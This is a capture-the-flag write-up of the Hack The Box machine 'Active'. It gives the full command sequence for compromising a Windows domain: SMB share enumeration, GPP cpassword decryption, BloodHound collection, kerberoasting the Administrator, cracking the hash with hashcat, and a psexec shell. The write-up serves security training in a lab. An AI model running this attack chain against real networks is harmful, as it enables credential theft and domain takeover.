 ```yaml
---
title: "CTF Writeup: Active"
date: 2025-01-09 HH:MM:SS +0000
categories: [CTF, Writeup, hackthebox]
tags: [Active Directory], [SMB], [Bloodhound], [htb]
---
```


# Hack The Box - Active

## Description
Active is an easy machine that focusses on Windows Active Directory.<br>

## Information Gathering

### Step 1: Enumeration
We start with running good olde nmap to enumerate the target machine.<br>

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/active_TCP 10.129.92.76
```
![alt text](/assets/screenshots/active/image.png)<br>

We can use enum4linux to gain some insight into the Active Directory environment.
```bash
# enum4linux -a -U 10.129.92.76
```
![alt text](/assets/screenshots/active/image-1.png)<br>
We have access to the Replication SMB share!

We can double check with netexec.
```bash
# netexec smb 10.129.92.76 -u '' -p '' --shares
```
![alt text](/assets/screenshots/active/image-2.png)<br>

## Exploitation

### Step 2: Open SMB server
Now that we know that we have access to the Replication share on the target machine we can connect to this share using smbclient.

```bash
# smbclient "//10.129.92.76/Replication"
```
![alt text](/assets/screenshots/active/image-3.png)<br>

To make it easy for ourselves, we car now recursive download all the files we see here so we can search through them on our kali machine.<br>
```bash
# recurse ON
# mget *
```
![alt text](/assets/screenshots/active/image-4.png)<br>
Now we are able to display all the folders and files we downloaded from the Replication smb share.<br>
![alt text](/assets/screenshots/active/image-5.png)<br>
We can now check each file that seems interesting for us.<br>

We found a hash in the Groups.xml file.

Now we need to find a way to elevate privileges.<br>
![alt text](/assets/screenshots/active/image-6.png)<br>
This seems to be a GPP password. 
Whenever a new Group Policy Preference (GPP) is created, there’s an xml file created in the SYSVOL share with that config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as cpassword<br>

To decrypt the password we can use cpp-decrypt.<br>
![alt text](/assets/screenshots/active/image-7.png)<br>

We found the credentials for the SVC_TGS account.<br>
```bash
# netexec smb 10.129.92.76 -u SVC_TGS -p '[Password]'
```
![alt text](/assets/screenshots/active/image-8.png)<br>

### Step 3: Bloodhound
Now that we have found valid credentials for a user account on the target we can use these to enumerate the target and get information about the Active Directory environment.<br>
```bash
# netexec ldap 10.129.92.76 -u SVC_TGS -p '[Password]' --bloodhound --collection ALL --dns-server 10.129.92.76
```
![alt text](/assets/screenshots/active/image-9.png)<br>

If we load this zip file we created with the previous command into bloodhound we can visualize the Active Directory structures.<br>
![alt text](/assets/screenshots/active/image-10.png)<br>

There are a lot of things bloodhound can show us. For this situation we are interested in the keberoasteble users.<br>
![alt text](/assets/screenshots/active/image-11.png)<br>
If we check the kerberoastable users we can see the Administrator!<br>

# Privilege Escalation

Now that we know that the Administrator user is a kerberoastable account we can use the impacket-GetUserSPNs tool to perform the kerberoast attack and get us a hash for the administrator user.
```bash
# sudo impacket-GetUserSPNs -request -dc-ip 10.129.92.76 active.htb/SVC_TGS
```
![alt text](/assets/screenshots/active/image-12.png)<br>

Now that we have a hash for the Administrator user we can crack and crack this hash. First we past it into a file  and second we load the file with a cracking tool such as john the ripper or hashcat.

Let's use hashcat in this situation and use the rockyou.txt file as the password file.
```bash
# sudo hashcat -m 13100 admin.hash /usr/share/wordlists/rockyou.txt --force
```
![alt text](/assets/screenshots/active/image-13.png)<br>
And we got the admin password!

To verify if these credentials work we can use netexec.
```bash
# netexec smb 10.129.92.76 -u Administrator -p '[password]'
```
![alt text](/assets/screenshots/active/image-14.png)<br>

Let's login to this the target using impacket-psexec.
```bash
# impacket-psexec Administrator:"[password]"@10.129.92.76
```
![alt text](/assets/screenshots/active/image-16.png)<br>
Now we can grab the user.txt and root.txt files.

![alt text](/assets/screenshots/active/image-17.png)<br>
NOICE!

## Conclusion
To summarize this machine. It was a machine with open SMB shares that we could misuse to browse the Replication share containing a xml file with a user hash. After we got access to a valid user account we could kerberoast another user with administrator privileges.<br>

## Lessons Learned
- Check the SMB service for any open shares.
- Identify privileged service accounts using kerberoasting.
